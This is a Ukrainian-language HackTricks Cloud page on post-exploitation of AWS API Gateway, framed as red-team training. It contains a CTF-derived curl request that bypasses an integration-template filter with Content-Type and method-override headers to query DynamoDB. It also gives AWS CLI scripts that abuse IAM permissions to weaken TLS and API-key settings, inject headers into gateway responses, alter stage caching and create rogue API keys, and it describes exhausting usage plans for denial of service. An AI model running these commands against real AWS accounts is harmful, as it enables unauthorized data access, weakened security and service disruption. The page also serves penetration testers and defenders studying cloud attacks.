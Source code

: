# AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Для отримання додаткової інформації перегляньте:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Доступ до неекспонованих API

Ви можете створити кінцеву точку в [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) з сервісом `com.amazonaws.us-east-1.execute-api`, експонувати кінцеву точку в мережі, до якої у вас є доступ (можливо, через машину EC2) і призначити групу безпеки, що дозволяє всі з'єднання.\
Потім, з машини EC2 ви зможете отримати доступ до кінцевої точки і, отже, викликати API шлюзу, який раніше не був експонований.

### Обхід пропуску тіла запиту

Цю техніку було виявлено в [**цьому CTF звіті**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Як зазначено в [**документації AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) в розділі `PassthroughBehavior`, за замовчуванням значення **`WHEN_NO_MATCH`**, при перевірці заголовка **Content-Type** запиту, передасть запит на бекенд без трансформації.

Отже, в CTF API Gateway мав шаблон інтеграції, який **перешкоджав ексфільтрації прапора** у відповіді, коли запит надсилався з `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Однак, надсилання запиту з **`Content-type: text/json`** запобігло б цьому фільтру.

Нарешті, оскільки API Gateway дозволяв лише `Get` та `Options`, було можливим надіслати довільний запит до dynamoDB без жодних обмежень, надіславши POST запит з запитом у тілі та використовуючи заголовок `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

У розділі **Enumeration** ви можете побачити, як **отримати план використання** ключів. Якщо у вас є ключ і він **обмежений** до X використань **на місяць**, ви можете **просто використовувати його і викликати DoS**.

**API Key** просто потрібно **включити** в **HTTP заголовок** під назвою **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Зловмисник з правами `apigateway:UpdateGatewayResponse` та `apigateway:CreateDeployment` може **модифікувати існуючу відповідь шлюзу, щоб включити користувацькі заголовки або шаблони відповідей, які витікають чутливу інформацію або виконують шкідливі скрипти**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Витік чутливої інформації, виконання шкідливих скриптів або несанкціонований доступ до ресурсів API.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Зловмисник з правами `apigateway:UpdateStage` та `apigateway:CreateDeployment` може **модифікувати існуючий етап API Gateway, щоб перенаправити трафік на інший етап або змінити налаштування кешування для отримання несанкціонованого доступу до кешованих даних**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Несанкціонований доступ до кешованих даних, порушення або перехоплення API-трафіку.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Зловмисник з правами `apigateway:PutMethodResponse` та `apigateway:CreateDeployment` може **модифікувати відповідь методу існуючого методу API Gateway REST API, щоб включити користувацькі заголовки або шаблони відповідей, які витікають чутливу інформацію або виконують шкідливі скрипти**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Потенційний вплив**: Витік чутливої інформації, виконання шкідливих скриптів або несанкціонований доступ до ресурсів API.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Зловмисник з правами `apigateway:UpdateRestApi` та `apigateway:CreateDeployment` може **змінити налаштування REST API API Gateway, щоб вимкнути ведення журналів або змінити мінімальну версію TLS, що потенційно послаблює безпеку API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Потенційний вплив**: Послаблення безпеки API, що потенційно дозволяє несанкціонований доступ або викриття чутливої інформації.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Зловмисник з правами `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` та `apigateway:CreateUsagePlanKey` може **створювати нові API ключі, асоціювати їх з планами використання, а потім використовувати ці ключі для несанкціонованого доступу до API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Потенційний вплив**: Несанкціонований доступ до ресурсів API, обхід засобів безпеки.

{% hint style="info" %}
Потрібно тестування
{% endhint %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
